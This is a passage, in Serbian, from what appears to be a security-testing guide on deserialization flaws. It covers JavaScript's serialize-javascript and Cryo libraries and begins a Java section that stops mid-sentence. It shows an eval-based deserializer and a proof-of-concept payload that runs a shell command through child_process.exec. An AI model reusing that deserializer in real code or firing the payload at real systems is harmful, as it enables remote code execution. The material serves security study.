 **Za** [**više informacija pročitajte ovaj izvor**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

Paket **serialize-javascript** je dizajniran isključivo za potrebe serijalizacije, bez ugrađenih mogućnosti za deserijalizaciju. Korisnici su odgovorni za implementaciju sopstvene metode za deserijalizaciju. Direktna upotreba `eval` funkcije je predložena u zvaničnom primeru za deserijalizaciju serijalizovanih podataka:

```javascript
function deserialize(serializedJavascript){
return eval('(' + serializedJavascript + ')');
}
```

Ako se ova funkcija koristi za de-serijalizaciju objekata, možete je **lako iskoristiti**:

```javascript
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```

**Za**[ **više informacija pročitajte ovaj izvor**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### Cryo biblioteka

Na sledećim stranicama možete pronaći informacije o tome kako zloupotrebiti ovu biblioteku radi izvršavanja proizvoljnih komandi:

* [https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)
* [https://hackerone.com/reports/350418](https://hackerone.com/reports/350418)

## Java - HTTP

U Javi, **callback-ovi za deserializaciju se izvršavaju tokom procesa deserializacije**. Ovu izvršavanje mogu iskoristiti napadači koji kreiraju zlonamerne payload-e koji pokreću ove callback-ove, što može dovesti do potencijalnog izvršavanja štetnih radnji.

### Otisci

#### Bela kutija

Da biste identifikovali potencijalne ranjivosti deserializacije u kodnoj bazi, pretražite:
